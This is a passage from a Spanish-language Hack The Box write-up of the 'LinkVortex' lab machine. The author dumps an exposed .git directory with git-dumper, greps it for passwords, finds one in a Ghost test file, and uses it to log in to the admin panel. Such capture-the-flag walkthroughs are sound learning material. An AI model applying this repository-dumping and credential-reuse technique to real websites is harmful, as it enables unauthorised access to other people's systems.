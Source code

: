 Utilizo [Git Dumper](https://github.com/arthaud/git-dumper) para descargar el repositorio completo.

```terminal
(venv)-/home/kali/Documents/htb/machines/linkvortex:-$ python3 /home/kali/Documents/tools/git-dumper/git_dumper.py http://dev.linkvortex.htb/.git/ ./git
```

Busco información sensible filtrando por la palabra `password` y encuentro posibles credenciales.

```terminal
/home/kali/Documents/htb/machines/linkvortex/git:-$ grep -rE 'password ='
```

![](assets/img/htb-writeup-linkvortex/linkvortex2_3.png)

```terminal
/home/kali/Documents/htb/machines/linkvortex/git:-$ cat ghost/core/test/regression/api/admin/authentication.test.js | grep -B 3 'OctopiFociPilfer45'
        it('complete setup', async function () {
            const email = 'test@example.com';
            const password = 'OctopiFociPilfer45';
```

Intento iniciar sesión en el formulario con el usuario `admin@linkvortex.htb` y la contraseña encontrada `OctopiFociPilfer45`, y tengo éxito.

![](assets/img/htb-writeup-linkvortex/linkvortex2_4.png)

---